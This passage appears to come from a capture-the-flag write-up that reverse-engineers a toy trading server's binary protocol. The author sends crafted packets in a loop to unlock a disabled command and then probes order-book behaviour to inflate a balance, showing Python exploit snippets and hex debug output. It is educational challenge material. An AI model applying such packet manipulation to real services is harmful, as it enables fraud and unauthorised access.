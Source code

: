 So lets do that a `100` times and we should be able to use the command we couldn't use previously.

```python
for _ in range(120):
    r.send(pk1(2))
    r.send(pk0(2, 2))
    r.send(pk0(2, -2))

time.sleep(2)
r.send(pk3(2, 2))
time.sleep(1000);
```

```python
[DEBUG] Sent 0x11 bytes:
    00000000  03 02 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000010  40                                                  │@│
    00000011
[DEBUG] Received 0x1 bytes:
    00000000  fc                                                  │·│
    00000001 
```

Ayyy, we got an error message.

### Getting rich

So but what did we actually achieve by enabling this command? Well another good time to figure out what it's doing by looking at what's changing isn't it ?

We already know that it is not doing anything if the order book is empty. So what's the interaction with something in the order book? 


```python
r.send(pk1(2)) # this is reducing my balance by 4 and increasing my position by 2
r.send(pk0(20, -2)) # This is creating an entry in the book where i would sell 2 shares for 20 money each
r.send(pk0(10, 2)) # This is creating an entry in the book where i would buy 2 shares for 10 money each
r.send(pk3(2, 20)) # I don't konw what this does
``` 

```python
CLIENT PACKET
  balance: 1000000004.0
  SomeNum: 116
  position: 0
[DEBUG] Sent 0x9 bytes:
    00000000  01 02 00 00  00 00 00 00  00                        │····│····│·│
    00000009
[DEBUG] Sent 0x11 bytes:
    00000000  00 00 00 00  00 00 00 34  40 fe ff ff  ff ff ff ff  │····│···4│@···│····│
    00000010  ff                                                  │·│
    00000011
[DEBUG] Received 0x12 bytes:
[DEBUG] Sent 0x11 bytes:
    00000000  01 02 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000010  f0 3f                                               │·?│
    00000012
    00000000  00 00 00 00  00 00 00 24  40 02 00 00  00 00 00 00  │····│···$│@···│····│
    00000010  00                                                  │·│
    00000011
[DEBUG] Received 0x12 bytes:
[DEBUG] Sent 0x11 bytes:
    00000000  01 00 7f 17  00 20 4e 00  00 00 00 00  00 00 00 00  │····│· N·│····│····│
    00000010  00 00                                               │··│
    00000012
```